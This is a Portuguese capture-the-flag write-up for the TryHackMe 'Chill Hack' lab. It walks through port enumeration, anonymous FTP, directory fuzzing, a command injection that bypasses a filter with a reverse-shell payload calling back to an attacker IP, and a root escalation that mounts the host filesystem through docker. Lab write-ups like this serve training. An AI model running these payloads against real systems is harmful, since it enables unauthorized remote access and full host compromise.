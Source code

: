 # Chill Hack - THM writeup

<img src="images/chillHack/nmap.png">

Na enumeração de portas, temos 3 itens pra verificar uma porta 80 HTTP padrão, uma 21 FTP e uma 22 SSH. 

Falando em portas FTP abertas, a primeira coisa que fazemos é tentar FTP anonymous. 

<img src="images/chillHack/ftp.png">

Conseguimos um arquivo note.txt. 

<img src="images/chillHack/note.png">

Certo, agora vamos olhar a página web e ver o que temos lá dentro. 

<img src="images/chillHack/page.png">

Uma página web normal, como padrão em testes vamos fazer fuzzing de URL e diretórios.

<img src="images/chillHack/resultados.png">

Nessa parte, precisamos ficar atentos aos filtros que usamos na URL. Eu demorei um pouco pra ver que estava buscando só por 200. Precisamos buscar por mais status code de respostas HTTP (200, 204, 301 e mais alguns de sua preferencia dependendo do escopo).

Descobrimos um diretório chamado /secret.

<img src="images/chillHack/RCE.png">

Achamos um RCE com um filtro de strings. Agora precisamos montar uma payload para pegarmos a shell nessa máquina.

```id;bash -c 'sh -i >& /dev/tcp/10.8.19.30/9001 0>&1'```

Esse comando bypassa o filtro da aplicação e abre uma shell. O ; no linux abre espaço pra outro comando, isso permite que a gente passe um comando usando bash -c '', que executa por CLI um comando bash.


<img src="images/chillHack/shell.png">

Agora vamos escalar pra user.

<img src="images/chillHack/sudo -l.png">

O comando sudo -l mostra arquivos que podem ser executados com uma permissão maior. Nesse o arquivo .helpline.sh

Vamos ter problemas ao usar o terminal sem o TERM

export TERM=screen

<img src="images/chillHack/flag1.png">

Agora entramos no ssh do apaar com a key da pasta .ssh 

<img src="images/chillHack/ssh.png">

Depois de muitas pesquisas, encontrei esse comando. Tive muita dificuldade de entender como ele funciona. Entendendo a base dele temos

docker run - Inicia um contêiner Docker.
-v /:/mnt - Monta o sistema de arquivos raiz do host no diretório /mnt do contêiner

--rm - Remove o contêiner automaticamente quando ele é encerrado

-it - Permite a interação com o shell do contêiner

alpine - Especifica a imagem do Alpine Linux a ser usada para o contêiner

chroot /mnt sh - Executa o comando chroot para alterar o diretório raiz para /mnt e inicia um shell dentro do contêiner.


```docker run -v /:/mnt --rm -it alpine chroot /mnt sh``` 



